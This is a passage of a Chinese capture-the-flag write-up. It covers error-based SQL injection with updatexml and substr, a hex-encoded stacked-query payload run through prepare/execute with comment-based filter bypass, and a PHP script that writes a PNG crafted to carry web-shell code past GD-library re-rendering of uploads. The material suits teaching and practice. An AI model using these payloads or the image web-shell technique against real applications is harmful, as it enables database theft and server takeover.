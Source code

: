因为利用 updatexml 报错注入会有长度限制, 所以使用 substr 截取 flag 内容

```sql
# step 1
select updatexml(1,concat(0x7e,(select substr((select flag from flag),1,31)),0x7e),1);
# step 2
select updatexml(1,concat(0x7e,(select substr((select flag from flag),31,99)),0x7e),1);
```

payload

```sql
# step 1
id;set/**/@a=0x73656c65637420757064617465786d6c28312c636f6e63617428307837652c2873656c65637420737562737472282873656c65637420666c61672066726f6d20666c6167292c312c333129292c30783765292c31293b;prepare/**/stmt/**/from/**/@a;execute/**/stmt;
# step 2
id;set/**/@a=0x73656c65637420757064617465786d6c28312c636f6e63617428307837652c2873656c65637420737562737472282873656c65637420666c61672066726f6d20666c6167292c33312c393929292c30783765292c31293b;prepare/**/stmt/**/from/**/@a;execute/**/stmt;
```

### ez_upload

upload.php 通过 content-type 判断图片类型并调用对应的 imagecreatefromXXX 和 imgXXX 函数, 这些函数来自 PHP GD 库, 这个库主要负责处理图片

题目的功能其实是个简单的 "二次渲染", 二次渲染就是指服务端对用户上传的图片进行了二次处理, 例如图片的裁切, 添加水印等等

如果只是在图片的末尾简单的添加了 PHP 代码并上传, 那么经过二次渲染之后的图片是不会包含这段代码的, 因此需要去找一些绕过 GD 库二次渲染的脚本, 然后再构造图片马

https://xz.aliyun.com/t/2657

以 PNG 为例, 直接引用上面文章中的脚本

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```
